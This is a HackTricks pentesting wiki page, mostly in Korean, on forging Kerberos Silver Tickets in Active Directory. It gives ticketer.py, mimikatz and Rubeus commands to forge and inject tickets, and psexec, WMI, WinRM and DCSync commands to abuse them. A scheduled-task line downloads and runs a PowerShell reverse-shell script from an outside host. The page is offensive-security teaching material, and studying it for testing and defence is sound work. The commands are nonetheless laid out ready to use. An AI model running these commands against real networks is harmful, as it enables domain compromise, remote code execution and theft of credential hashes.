 # Silver Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Silver ticket

**Silver Ticket** 공격은 Active Directory (AD) 환경에서 서비스 티켓을 악용하는 것입니다. 이 방법은 **서비스 계정의 NTLM 해시를 획득하는 것**에 의존하여 Ticket Granting Service (TGS) 티켓을 위조합니다. 이 위조된 티켓을 사용하여 공격자는 네트워크의 특정 서비스에 접근할 수 있으며, **임의의 사용자를 가장할 수 있습니다**, 일반적으로 관리 권한을 목표로 합니다. 티켓을 위조할 때 AES 키를 사용하는 것이 더 안전하고 덜 탐지된다는 점이 강조됩니다.

티켓 제작을 위해 운영 체제에 따라 다양한 도구가 사용됩니다:

### On Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
### 윈도우에서
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```
The CIFS 서비스는 피해자의 파일 시스템에 접근하기 위한 일반적인 목표로 강조되지만, HOST 및 RPCSS와 같은 다른 서비스도 작업 및 WMI 쿼리를 위해 악용될 수 있습니다.

## 사용 가능한 서비스

| 서비스 유형                                 | 서비스 실버 티켓                                                        |
| ------------------------------------------ | -------------------------------------------------------------------------- |
| WMI                                        | <p>HOST</p><p>RPCSS</p>                                                    |
| PowerShell 원격 관리                       | <p>HOST</p><p>HTTP</p><p>운영 체제에 따라:</p><p>WSMAN</p><p>RPCSS</p> |
| WinRM                                      | <p>HOST</p><p>HTTP</p><p>경우에 따라: WINRM 요청 가능</p>               |
| 예약된 작업                                | HOST                                                                       |
| Windows 파일 공유, 또한 psexec            | CIFS                                                                       |
| LDAP 작업, DCSync 포함                     | LDAP                                                                       |
| Windows 원격 서버 관리 도구                | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                         |
| 골든 티켓                                  | krbtgt                                                                     |

**Rubeus**를 사용하여 다음 매개변수를 사용하여 **모든** 티켓을 **요청할 수** 있습니다:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

### 실버 티켓 이벤트 ID

* 4624: 계정 로그인
* 4634: 계정 로그오프
* 4672: 관리자 로그인

## 서비스 티켓 악용

다음 예제에서는 티켓이 관리자 계정을 가장하여 검색된다고 가정해 보겠습니다.

### CIFS

이 티켓을 사용하면 `C$` 및 `ADMIN$` 폴더에 **SMB**를 통해 접근할 수 있으며(노출된 경우) 원격 파일 시스템의 일부에 파일을 복사할 수 있습니다. 단순히 다음과 같은 작업을 수행하면 됩니다:
```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```
당신은 또한 **psexec**를 사용하여 호스트 내부에서 셸을 얻거나 임의의 명령을 실행할 수 있습니다:

{% content-ref url="../lateral-movement/psexec-and-winexec.md" %}
[psexec-and-winexec.md](../lateral-movement/psexec-and-winexec.md)
{% endcontent-ref %}

### HOST

이 권한으로 원격 컴퓨터에서 예약된 작업을 생성하고 임의의 명령을 실행할 수 있습니다:
```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
### HOST + RPCSS

이 티켓을 사용하면 **희생자 시스템에서 WMI를 실행할 수 있습니다**:
```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
더 많은 **wmiexec** 정보는 다음 페이지에서 확인하세요:

{% content-ref url="../lateral-movement/wmiexec.md" %}
[wmiexec.md](../lateral-movement/wmiexec.md)
{% endcontent-ref %}

### HOST + WSMAN (WINRM)

winrm을 통해 컴퓨터에 접근하면 **접근할 수** 있으며, PowerShell도 얻을 수 있습니다:
```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```
다음 페이지를 확인하여 **winrm을 사용하여 원격 호스트에 연결하는 더 많은 방법**을 알아보세요:

{% content-ref url="../lateral-movement/winrm.md" %}
[winrm.md](../lateral-movement/winrm.md)
{% endcontent-ref %}

{% hint style="warning" %}
**winrm이 원격 컴퓨터에서 활성화되고 수신 대기 중이어야** 액세스할 수 있습니다.
{% endhint %}

### LDAP

이 권한으로 **DCSync**를 사용하여 DC 데이터베이스를 덤프할 수 있습니다:
```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```
**DCSync에 대해 더 알아보세요** 다음 페이지에서:

## References

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**버그 바운티 팁**: **가입하세요** **Intigriti**, 해커를 위해 해커가 만든 프리미엄 **버그 바운티 플랫폼**! 오늘 [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks)에서 저희와 함께하고 최대 **$100,000**의 보상을 받기 시작하세요!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
